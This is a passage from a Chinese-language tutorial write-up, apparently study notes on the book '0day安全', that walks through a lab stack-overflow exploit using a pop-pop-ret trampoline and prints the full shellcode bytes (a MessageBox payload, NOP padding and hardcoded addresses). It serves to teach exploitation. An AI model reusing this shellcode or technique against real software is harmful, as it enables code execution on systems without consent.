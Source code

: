 
但是，此时已经完成了字符串复制，我们的shellcode已经被复制到了栈上。我们执行到`call eax`前看一下栈（下图右下方）：

![Bildschirmfoto 2018-08-05 um 4.40.33 PM.png]({{ site.url }}/images/0day/080132AEAE87E205612C8155913FA781.png)

可以发现，在`0x0012FE8C`处存储着buf首地址，而这个位置刚好是`ESP + 4`！所以我们可以凭借在ROP技术中使用的PPR（`pop pop ret`）操作来达到跳转到buf首地址执行的目的：想象一下，当执行`call eax`后，返回地址被压栈，导致ESP减4，所以`0x0012FE8C`就变成了`ESP - 8`的位置。然后经过两次`pop`操作，ESP就指向了`0x0012FE8C`，这时一个`ret`就可以顺利回到buf首执行。

我们利用`OllyFindAddr`在内存中搜索一个PPR，有很多结果：

![Bildschirmfoto 2018-08-05 um 3.39.53 PM.png]({{ site.url }}/images/0day/A84C8C4673435214235843243F66FD8D.png)

这里我选择`0x7c921d04`处的：

![Bildschirmfoto 2018-08-05 um 4.46.04 PM.png]({{ site.url }}/images/0day/D2177BEBB93E06F4B72660EDE5A2776E.png)

需要注意的是，这个地址首先会被当作跳板使用，但是当EIP回到buf首再次执行的时候，这个数字就被当作了指令。或许需要通过多次调试，你才能从上述众多结果中找到一个被当作指令时不会影响shellcode效果的PPR地址。

最后就是填上shellcode了。如前所述，我们总共可以使用的空间是220，这里我选用[0day安全 | Chapter 3 开发shellcode的艺术](quiver:///notes/422E2247-2D65-43F6-96C2-CDE33FEAB65C)给出的通用弹窗shellcode，它是168字节，加上开头的PPR地址4字节，是172字节，所以我们还需要48个nop做填充，然后跟上`main传过去的实参`的地址`0x00402108`（最后高位的`\x00`用字符串尾零就好）。

shellcode的构成及攻击流程示意如下：

![Bildschirmfoto 2018-09-28 um 5.05.40 PM.png]({{ site.url }}/images/0day/02A9BAEA6EE1889753622DD4B940266F.png)

最终shellcode：

```c
// pop pop ret
"\x04\x1d\x92\x7c"
// messagebox
"\xfc\x68\x6a\x0a\x38\x1e\x68\x63\x89\xd1\x4f\x68\x32\x74\x91\x0c"
"\x8b\xf4\x8d\x7e\xf4\x33\xdb\xb7\x04\x2b\xe3\x66\xbb\x33\x32\x53"
"\x68\x75\x73\x65\x72\x54\x33\xd2\x64\x8b\x5a\x30\x8b\x4b\x0c\x8b"
"\x49\x1c\x8b\x09\x8b\x69\x08\xad\x3d\x6a\x0a\x38\x1e\x75\x05\x95"
"\xff\x57\xf8\x95\x60\x8b\x45\x3c\x8b\x4c\x05\x78\x03\xcd\x8b\x59"
"\x20\x03\xdd\x33\xff\x47\x8b\x34\xbb\x03\xf5\x99\x0f\xbe\x06\x3a"
"\xc4\x74\x08\xc1\xca\x07\x03\xd0\x46\xeb\xf1\x3b\x54\x24\x1c\x75"
"\xe4\x8b\x59\x24\x03\xdd\x66\x8b\x3c\x7b\x8b\x59\x1c\x03\xdd\x03"
"\x2c\xbb\x95\x5f\xab\x57\x61\x3d\x6a\x0a\x38\x1e\x75\xa9\x33\xdb"
"\x53\x68\x2d\x6a\x6f\x62\x68\x67\x6f\x6f\x64\x8b\xc4\x53\x50\x50"
"\x53\xff\x57\xfc\x53\xff\x57\xf8"
// nop
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
// shellcode in .data (0x00402108)
"\x08\x21\x40"
```

测试：

![Bildschirmfoto 2018-08-05 um 4.09.33 PM.png]({{ site.url }}/images/0day/487EDE4721415BCC34748F1FD1E033B3.png)

